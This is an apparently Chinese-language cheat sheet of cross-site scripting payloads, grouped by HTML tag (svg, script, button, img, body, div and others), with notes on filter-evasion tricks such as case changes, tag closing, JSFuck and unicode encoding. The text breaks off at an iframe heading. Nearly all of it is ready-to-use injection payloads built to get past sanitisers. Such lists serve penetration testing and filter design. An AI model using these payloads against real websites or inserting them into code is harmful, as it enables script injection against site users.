 >`HTTPS -> HTTP`
>`<meta name="referrer" content="never" >`
* 注意返回的type类型
>返回的type类型是xml和html时，才可能执行
* 阻止浏览器302跳转
* 头部X-XSS-Protection
* 大小写绕过
* 标签绕过
* 闭合标签
#### 哪些标签

* a 标签的xlink
```plain
<svg><a xlink:href="javascript:alert(1)"><rect width="1000" height="1000" fill="white"/>不要点我</a></svg> 
<math><a xlink:href=javascript:alert(1)>M
```
* script 标签
```plain
<script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script> //想玩这个，可以在这里转换你的编码 http://www.jsfuck.com/ 
<script firefox>alert(1)</script>  //其实我们并不需要一个规范的script标签 
<script>~'\u0061' ;  \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073.  \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script> // 
<script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script>//在这里我们依然可以使用那些编码 
<script>prompt(-[])</script> //不只是alert。prompt和confirm也可以弹窗 
<script>alert(/3/)</script> //可以用"/"来代替单引号和双引号 
<script>alert(String.fromCharCode(49))</script> //我们还可以用char 
<script>alert(/7/.source)</script> // ".source"不会影响alert(7)的执行 
<script>setTimeout('alert(1)',0)</script> //如果输出是在setTimeout里，我们依然可以直接执行alert(1)
```
* Button 标签
```plain
<form><button formaction=javascript&colon;alert(1)>M
<button onfocus=alert(1) autofocus>
```
* p标签
>如果你发现变量输出在了p标签里，先不要急着从标签跳出去，因为只要你能跳出""就已经足够了。
>`<p/onmouseover=javascript:alert(1); >M</p>`
* img标签
>img标签没有什么好讲的了。不过值得注意的是，有些姿势是因浏览器不通而不能成功的执行的。所以在空闲时间对payload进行分类，做上可执行浏览器的注释来提高你挖掘XSS的效率。
```plain
<img src=x onerror=alert(1)> 
<img src ?itworksonchrome?\/onerror = alert(1)>  //只在chrome下有效 
<img src=x onerror=window.open('http://google.com');> 
<img/src/onerror=alert(1)>  //只在chrome下有效 
<img src="x:kcf" onerror="alert(1)">
```
* body标签
>没有什么特别之处，都是通过event来调用js
```plain
<body onload=alert(1)> 
<body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus> 
```
* var标签
>`<var onmouseover="prompt(1)">KCF</var>`
* div标签
```plain
<div/onmouseover='alert(1)'>X 
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onclick="alert(52)">
```
* iframe标签